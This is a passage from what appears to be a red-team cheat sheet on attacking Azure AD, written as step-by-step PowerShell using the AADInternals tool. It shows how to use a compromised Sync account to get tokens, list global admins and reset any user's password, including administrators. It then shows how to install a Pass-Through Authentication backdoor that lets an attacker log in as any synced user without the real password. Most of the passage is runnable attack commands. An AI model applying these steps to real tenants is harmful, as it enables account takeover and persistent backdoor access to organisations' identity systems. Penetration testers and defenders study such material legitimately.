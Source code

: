 * Using the Sync_* account we can reset password for any user. (Including Global Administrator and the user who created the tenant)

#### Using the creds, request an access token for AADGraph and save it to cache using the SYNC account

```powershell
Import-Module .\AADInternals.psd1
$passwd = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<SYNC USERNAME>", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
```

#### Enumerate global admin

```powershell
Get-AADIntGlobalAdmins
```

#### Get the ImmutableID

```powershell
Get-AADIntUser -UserPrincipalName <NAME> | select ImmutableId
```

#### Reset the Azure password

```powershell
Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE ID>" -Password "<PASSWORD>" -Verbose
```

#### Reset password for cloud only user

* Need CloudAnchor ID which is the format ```<USER>_<OBJECTID>```

```powershell
Import-Module .\AADInternals.psd1
 Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID
Set-AADIntUserPassword -CloudAnchor "<ID>" -Password "<PASSWORD>" -Verbose
```

* Access Azure portal using the new password.

## Pass Through Authentication PTA Abuse

* Once we have admin access to an Azure AD connect server running PTA agent.

* Not reliable method to check if PTA is used, Check if module is available ```Get-Command -Module PassthroughAuthPSModule```
* Once the backdoor is installed, we can authenticate as any user synced from on-prem without knowing the correct password!

### Install a backdoor (needs to be run ad administrator)

```powershell
Import-Module .\AADInternals.psd1
Install-AADIntPTASpy
```
